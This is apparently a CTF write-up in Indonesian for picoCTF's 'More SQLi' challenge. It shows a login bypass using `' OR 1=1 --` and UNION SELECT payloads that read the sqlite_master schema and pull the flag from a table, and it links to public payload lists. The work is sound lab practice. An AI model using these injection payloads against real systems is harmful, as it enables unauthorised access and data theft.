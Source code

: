 # More SQLi (picoCTF)

<img src="./img/2-soal.png">

## Reference

- https://github.com/payloadbox/sql-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Steps

1. Launch instance terlebih dahulu, ketika dibuka muncul login page. Saya mencoba inject dengan beberapa payload. Disini saya menggunakan `' OR 1=1 --` dengan password bebas.

<img src="./img/2-loginpage.png">

<img src="./img/2-outputlogin.png">

disini terlihat query SQL nya terbalik, sehingga hanya perlu untuk menukar inputnya

<img src="./img/2-loginsuccess.png">
login berhasil
<img src="./img/2-landingpage.png">

2. Setelah itu, kita akan mencoba beberapa payload untuk mencoba mendapatkan flag.

- `' UNION SELECT NULL,NULL,NULL --`
  <img src="./img/2-null.png">

- `' UNION SELECT name,sql,NULL from sqlite_master;--`
  <img src="./img/2-name,sql.png">

- `' UNION SELECT flag,NULL,NULL from more_table;--`
  <img src="./img/2-flag.png">
